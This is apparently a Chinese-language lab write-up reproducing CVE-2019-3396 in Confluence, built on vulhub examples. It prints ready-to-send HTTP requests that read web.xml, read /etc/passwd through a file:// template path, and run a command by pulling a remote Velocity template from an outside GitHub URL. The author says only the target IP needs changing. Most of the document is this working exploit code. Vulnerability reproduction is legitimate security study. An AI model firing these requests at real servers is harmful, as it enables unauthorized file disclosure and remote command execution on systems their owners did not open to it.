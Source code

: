 # CVE-2019-3396 Confluence RCE漏洞复现

## 漏洞利用

### 读取外部web.xml
利用Bp进行抓包，注意Referer字段最好用自己抓的包的值，vulhub上提供的payload如下
```
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: Your-ip:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Referer: http://Your-ip:8090/pages/resumedraft.action?draftId=786457&draftShareId=056b55bc-fc4a-487b-b1e1-8f673f280c23&
Content-Type: application/json; charset=utf-8
Content-Length: 176

{"contentId":"786458","macro":{"name":"widget","body":"","params":{"url":"https://www.viddler.com/v/23464dc6","width":"1000","height":"1000","_template":"../web.xml"}}}
```

### 利用file协议读取本地任意文件
6.12以前的Confluence没有限制文件读取的协议和路径，我们可以使用file:///etc/passwd来读取文件，也可以通过https://...来加载远程文件。该文件是一个Velocity模板，我们可以通过模板注入（SSTI）来执行任意命令：
payload：
```
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: 192.168.124.153:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Referer: http://192.168.124.153:8090/pages/resumedraft.action?draftId=65594&draftShareId=4fd7bbb3-230b-480e-9360-e02b65c602ad
Content-Type: application/json; charset=utf-8
Content-Length: 167
{"contentId":"1","macro":{"name":"widget","params":{"url":"https://www.viddler.com/v/test","width":"1000","height":"1000","_template":"file:///etc/passwd"},"body":""}}
```

### 实现RCE excute command
主要原理是根据读文件的思路，远程包含python搭建的ftp服务器上的.vm文件来创造执行命令的环境，进而实现RCE。
照着搭建ftp等方式去进行复现我竟然没有成功，ftp服务这些是没有问题的，测试过了，很是苦恼，但突然发现goby上面有该漏洞的poc，能够检测该漏洞，而且对于该漏洞还有验证功能，更厉害的是还有一个链接，该链接也就是那个vm文件，所以就不用再搭建http或者ftp环境了，直接把_template的值改成这个链接的即可。链接如下。
`https://raw.githubusercontent.com/r33nd/confluence/master/cmd.vm`
完整POC如下
```
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: IP:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Referer: http://IP:8090/pages/resumedraft.action?draftId=786457&draftShareId=056b55bc-fc4a-487b-b1e1-8f673f280c23&
Content-Type: application/json; charset=utf-8
Content-Length: 244


{"contentId":"786458","macro":{"name":"widget","body":"","params":{"url":"https://www.viddler.com/v/23464dc6","width":"1000","height":"1000","_template":"https://raw.githubusercontent.com/r33nd/confluence/master/cmd.vm","cmd":"whoami"}}}
```
只需要改poc里面的IP地址（改为自己的目标IP），然后执行命令，poc中执行的是whoami命令。

PS：这个方法很简单，复制poc，把ip一换就好了，省略了搭建环境的步骤；但是如果从学习的角度出发建议小伙伴还是照着网上那种完整步骤去进行复现。如果是要追求速度的话，那么用这个方法还是会快一些的。